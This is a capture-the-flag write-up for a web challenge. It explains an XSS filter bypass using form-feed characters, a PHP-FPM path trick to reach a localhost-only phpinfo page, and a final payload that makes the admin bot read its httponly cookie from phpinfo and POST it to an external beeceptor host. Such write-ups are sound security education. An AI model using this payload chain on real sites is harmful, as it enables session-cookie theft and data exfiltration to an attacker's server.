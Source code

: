 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **Flag is in the bot.js cookie with a httponly attr this mean that JS cannot access the cookie**

  **1-index.php**
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how ?**

  **the main problem is in the Enhanced_Trim function that replace the defined char set with "" so how to bypass it to make an alert?**

  **at first i looked for alternaives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this dosenot have any value since we cannot use JS to steal the cookie bc the httponly attr on the cookie**

  **the solution was in the info.php that view the  phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**

  **when a user vist the phpinfo page it reflect its cookie in response**

  **so now we can make the bot visit the info.php page then take the response and send it to our server right ? no it will not work bc the nginx.conf lets look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf say that the info.php is only accessible from the localhost (the bot dosent see the localhost of the challange so it cannot access it)**

  **that soloution was in the last part of the configuration that include and run any file endwith .php so we can it to access the info.php right ?**

  **i found this on hacktricks that made me able to bypass the validation and accss the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we cann access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot vist the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```
`flag -> idek{Ghazy_N3gm_Elbalad} `



  

